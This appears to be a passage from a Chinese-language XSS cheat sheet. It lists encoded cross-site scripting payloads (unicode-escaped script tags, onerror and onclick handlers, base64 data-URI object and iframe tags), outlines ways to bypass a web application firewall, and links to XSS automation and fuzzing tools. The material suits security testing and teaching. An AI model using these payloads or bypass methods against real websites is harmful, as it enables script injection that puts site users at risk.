   
js unicode 编码  
```
<script>\u0061\u006c\u0065\u0072\u0074('xss');</script>
```  
  
  
**HTML 编码**  
```
在=后可以解析 html 编码
十进制
<img src="x" onerror="alert(1)" />
<button onclick="confirm('7');">Button</button>
十六进制
<img src="x" onerror="alert(1)" />
```  
  
  
**base64 编码**  
  
使用伪协议 base64 解码执行 xss  
```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
```  
  
  
在线编码/解码工具：站长工具-编码解码在线、107000工具站、在线jsons字符实体转换、在线HTML字符实体转换  
  
4.使用其他标签，<a>、<href>、<img>等；  
  
5.使用空字符，在关键词中添加空字符；  
1. 使用转义字符；  
  
常规Waf绕过思路  
  
[+] 标签语法替换  
  
[+] 特殊符号干扰 比如 / #  
  
[+] 提交方式更改 Request的前提下，Waf只检查URL内容而不检查POST内容  
  
[+] 垃圾数据溢出  
  
[+] 加密解密算法  
  
[+] 结合其他漏洞绕过  
  
XSS自动化工具  
  
Xwaf，下载地址：github.com/3xp10it/xwaf  
  
XSStrike，下载地址：github.com/s0md3v/XSStr  
  
Fuzzing测试：  
  
在线生成Fuzzing字典：https://xssfuzzer.com/fuzzer.html  
  
Fuzzing字典：https://github.com/TheKingOfDuck/fuzzDicts  
## 构造xss攻击paload  
  